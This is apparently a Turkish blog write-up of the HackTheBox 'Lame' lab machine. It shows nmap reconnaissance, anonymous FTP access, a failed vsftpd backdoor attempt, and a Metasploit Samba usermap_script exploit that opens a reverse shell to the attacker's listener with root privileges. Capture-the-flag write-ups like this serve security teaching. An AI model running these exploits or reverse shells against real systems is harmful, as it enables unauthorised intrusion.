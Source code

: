 ```yaml
---
title: 'HackTheBox | Lame WriteUp'
author: appdone
categories: [HackTheBox Machines]
tags: [smb, command injection]
render_with_liquid: false
media_subpath: /images/hackthebox_lame/
image:
  path: logo.webp
---
```


## Özet

Lame, Samba'nın zafiyetli sürümünü kullanan debian tabanlı kolay seviye bir makinedir. Metasploit üzerinden bu sürüme uygun olan exploit'i çalıştıracak ve sistemde yetkili bir bağlantıya sahip olacağız.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sSVC -T4 10.10.10.3
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.105
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m27s, deviation: 2h49m45s, median: 25s
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-04-04T03:57:04-04:00
```

### 21 numaralı portun incelenmesi

21 numaralı portun üzerinde FTP servisi çalışıyor ve zafiyetli bir servis sürümü kullanılıyor. Anonymous olarak FTP servisine bağlandığımızda ise boş bir dizin ile karşılaşıyoruz.

```console
$ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:appdone): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
...
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
...
```

Sözde zafiyetli sürümünün üzerinde barınan backdoor kapalı gibi görünüyor, nitekim servisi sömüremiyoruz.

```console
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> exploit
[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

### 22 numaralı portun incelenmesi

22 numaralı portun üzerinde `OpenSSH 4.7p1` sürümüne sahip bir SSH servisi çalışıyor. 4.4 ve 7.7 arasındaki sürümlerde kullanıcı isimlerini toplayabileceğimiz bir güvenlik zafiyeti olduğunu biliyoruz. Burayı şimdilik atlayacağım, çünkü bu işlem çok uzun sürüyor.

### 139/445 numaralı portun incelenmesi

139/445 portun üzerinde Samba'nın `smbd 3.0.20-Debian` sürümü çalışıyor. Bu sürümde `usermap script` adında bir exploit olduğunu biliyorum.

## Sömürü aşaması

Metasploit'i açıp, gerekli bilgileri doldurduktan sonra exploiti çalıştırıyor ve root haklarında bir shell elde ediyoruz.

```console
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> exploit
[*] Started reverse TCP handler on 10.10.14.105:4444 
[*] Command shell session 1 opened (10.10.14.105:4444 -> 10.10.10.3:45047) at 2025-04-04 04:11:50 -0400

id
uid=0(root) gid=0(root)
```
